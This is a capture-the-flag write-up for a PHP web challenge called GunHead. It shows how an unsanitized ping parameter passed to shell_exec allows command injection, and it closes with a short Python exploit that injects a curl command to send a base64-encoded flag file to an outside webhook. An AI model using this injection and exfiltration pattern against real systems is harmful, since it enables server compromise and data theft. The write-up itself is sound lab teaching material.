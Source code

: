 # GunHead :: Easy
## Scenario 

```
During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable.
With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently
 needs to take it down.
```

## Solve

![](/images/gunhead-source-tree.png)

Our mission in this challenge is to disable the **Gunhead** combat robot.  

Here is the landing page:  

![](/images/gunhead_index.png)

While exploring the application, I could not help but notice the terminal icon on the sidebar of the **Gunhead** view.  

This icon opens some kind of web based terminal containing certains commands.  
![](/images/gunhead_commands.png)
  
Let's take a look at the source !  

The application is written in PHP, and uses the MVC design pattern.  
This means that we have to go look at the controller to understand which function is bound to which endpoint.  
Following this will lead us to the executed code when we trigger this endpoint.  

`ReconController.php`:
```php
<?php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']); // WE initiate a ReconModel instance.

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```

Let's go look at the source for the `ReconModel` object.  

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```

Here we can see that the object execute a raw shell command with the unsanitized user input.  

This means that command injection is possible.  
We can obtain command execution on the server this way.  

Let's craft our exploit:  

![](/images/command_injection.png)

We can inject a command by terminating the ping command using a semicolon.  
We can then add our own command which will be executing, wether the ping command fails or succeeds.  

```bash
;curl https://webhook.site/3578d2dc-d2dd-468b-a8c9-9bda1f8d1281;
```

## Exploit Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://localhost:1337"
HOOK = "<your-hook>"
PING_ENDPOINT = "/api/ping"
PAYLOAD = {"ip": f";curl {HOOK}/$(cat /flag.txt|base64 -w0);"}


if __name__ == "__main__":
    print("[*] Exploitating command injection in Gunhead ...")
    requests.post(TARGET + PING_ENDPOINT, json=PAYLOAD)
```

